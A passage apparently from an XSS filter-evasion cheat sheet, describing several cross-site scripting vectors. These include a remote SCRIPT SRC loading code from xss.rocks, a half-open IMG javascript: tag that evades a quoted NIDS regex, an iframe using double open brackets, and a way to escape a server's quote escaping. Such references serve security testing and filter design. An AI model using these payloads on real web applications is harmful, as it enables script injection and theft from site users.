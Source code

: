 </SCRIPT>

tag at the end. However, this is especially useful where space is an
issue, and of course, the shorter your domain, the better. The ".j" is
valid, regardless of the encoding type because the browser knows it in
context of a SCRIPT tag.

`<SCRIPT SRC=//xss.rocks/.j>`

## Half open HTML/JavaScript XSS vector

Unlike Firefox the IE rendering engine doesn't add extra data to your
page, but it does allow the javascript: directive in images. This is
useful as a vector because it doesn't require a close angle bracket.
This assumes there is any HTML tag below where you are injecting this
cross site scripting vector. Even though there is no close "\>" tag the
tags below it will close it. A note: this does mess up the HTML,
depending on what HTML is beneath it. It gets around the following NIDS
regex: /((\\%3D)|(=))\[^\\n\]\*((\\%3C)|\<)\[^\\n\]+((\\%3E)|\>)/
because it doesn't require the end "\>". As a side note, this was also
affective against a real world XSS filter I came across using an open
ended \<IFRAME tag instead of an \<IMG tag:

`<IMG SRC="`<javascript:alert>`('XSS')"`

## Double open angle brackets

Using an open angle bracket at the end of the vector instead of a close
angle bracket causes different behavior in Netscape Gecko rendering.
Without it, Firefox will work but Netscape won't:

`<iframe src=http://xss.rocks/scriptlet.html <`

## Escaping JavaScript escapes

When the application is written to output some user information inside
of a JavaScript like the following:

<SCRIPT>

var a="$ENV{QUERY\_STRING}";

</SCRIPT>

and you want to inject your own JavaScript into it but the server side
application escapes certain quotes you can circumvent that by escaping
their escape character. When this gets injected it will read

<SCRIPT>

var a="\\\\";alert('XSS');//";

</SCRIPT>

which ends up un-escaping the double quote and causing the Cross Site
Scripting vector to fire. The XSS locator uses this method.:
